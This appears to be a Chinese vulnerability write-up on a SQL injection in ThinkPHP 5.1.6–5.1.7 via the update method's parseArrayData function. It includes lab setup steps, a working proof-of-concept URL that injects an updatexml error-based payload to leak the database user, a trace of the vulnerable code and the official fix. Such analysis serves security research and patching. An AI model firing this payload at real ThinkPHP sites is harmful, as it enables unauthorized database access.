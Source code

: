 # 5.1.6 <= Thinkphp <= 5.1.7（非最新的 5.1.8 版本也可利用）sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3167](https://www.zhihuifly.com/t/topic/3167)

# 5.1.6 <= Thinkphp <= 5.1.7（非最新的 5.1.8 版本也可利用）

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **update** 方法注入）。本次漏洞存在于 **Mysql** 类的 **parseArrayData** 方法中由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL注入漏洞** 的产生

## 二、漏洞影响

5.1.6<=ThinkPHP<=5.1.7 (非最新的 **5.1.8** 版本也可利用)。

## 三、复现过程

### 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.7"
} 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$username = request()->get(‘username/a’);

db(‘users’)->where([‘id’ => 1])->update([‘username’ => $username]);

return ‘Update success’;

}

}` 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'mochazz'); 
```

### poc

```
http://0-sec.org:8000/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](img/9bc5749bd55273aeebb09d6fd739a278.png)

### 漏洞分析

![2.png](img/dbf5f4580f62a31a38cf519ef3bea8f5.png)

首先在官方发布的 **5.1.9** 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 **commit** 记录，发现其删除了 **parseArrayData** 方法，这处 **case** 语句之前出现过 **insert** 注入，所以比较可疑。

![3.png](img/7f8beb22add8072f65b0cc5987c1c321.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先， **payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的 **payload** ），直接进入了 **Query** 类的 **update** 方法，该方法调用了 **Connection** 类的 **update** 方法，该方法又调用了 **$this->builder** 的 **insert** 方法，这里的 **$this->builder** 为 **\think\db\builder\Mysql** 类，该类继承于 **Builder** 类，代码如下：

![4.png](img/c528b37874292409ae482846130137fc.png)

在 **Builder** 类的 **update** 方法中，调用了 **parseData** 方法。这个方法中的 **case** 语句之前存在 **SQL注入漏洞** ，现已修复，然而却多了 **default** 代码段，而这段代码也是在新版本中被删除的。

![5.png](img/0cdacc1d9fa0087c17ceef2d311c5ade.png)

我们跟进到 **parseArrayData** 方法，发现其中又将可控变量进行拼接，其变量来源均来自用户输入。之后的过程就和之前的 **insert** 注入一样，用 **str_replace** 将变量填充到 **SQL** 语句中，最终执行，导致 **SQL注入漏洞** 。

![6.png](img/e2a71e1a6e9f3997ac4dd7392c6c0a47.png)

上面 **第15行** 的 **$result** 相当于 **$a('$b($c)')** 其中 **$a、$b、$c** 均可控。最后形成的 **SQL** 语句如下：

```
UPDATE `users`  SET `username` = $a('$b($c)')  WHERE  `id` = 1; 
```

接着我们想办法闭合即可。我们令 **$a = updatexml(1,concat(0x7,user(),0x7e),1)^** 、 **$b = 0** 、 **$c = 1** ，即：

```
UPDATE `users` SET `username` = updatexml(1,concat(0x7,user(),0x7e),1)^('0(1)') WHERE `id` = 1 
```

### 漏洞修复

官方修复方法比较暴力，直接将 **parseArrayData** 方法删除了。

![7.png](img/bec2322a446216006e65bef5fda52642.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![8.png](img/3334bc5c91c90a0a6044d4c1a5ae7899.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln
